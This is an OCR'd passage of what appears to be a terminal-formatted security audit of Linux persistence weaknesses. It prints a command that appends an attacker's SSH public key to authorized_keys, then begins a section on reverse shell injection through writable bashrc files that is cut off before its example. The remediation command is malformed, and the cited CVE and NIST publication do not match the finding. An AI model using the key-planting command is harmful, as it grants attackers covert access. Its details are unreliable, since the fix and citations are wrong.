 ┃  echo "ssh-rsa ATTACKER_PUBKEY rsa-key-2023" >> ~/.ssh/authorized_keys                                                                                                                                                              ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Impact: Permits remote access without credentials                                                                                                                                                                                   ┃
┃ Criticality: High (CVSS 9.0)                                                                                                                                                                                                        ┃
┃ Remediation:                                                                                                                                                                                                                        ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  chmod 600 ~/.ssh/authorized_keys; chgrp -R .ssh /path/to/user_home                                                                                                                                                                 ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Sources:                                                                                                                                                                                                                            ┃
┃ CVE-2020-14145 | NIST SP 800-181 | Red Hat SSH Security Guide                                                                                                                                                                       ┃
┃ (fetch tool could be used to source attack docs)                                                                                                                                                                                    ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                2. Bash Initialization File Tampering                                                                                                ┃
┃                                                                                                                                                                                                                                     ┃
┃ Vulnerability: World-writable bashrc files enable reverse shell injection                                                                                                                                                           ┃
┃ Exploitation Example:                                                                                                                                                                                                               ┃
┃                                                                                                                                                                                                                                     ┃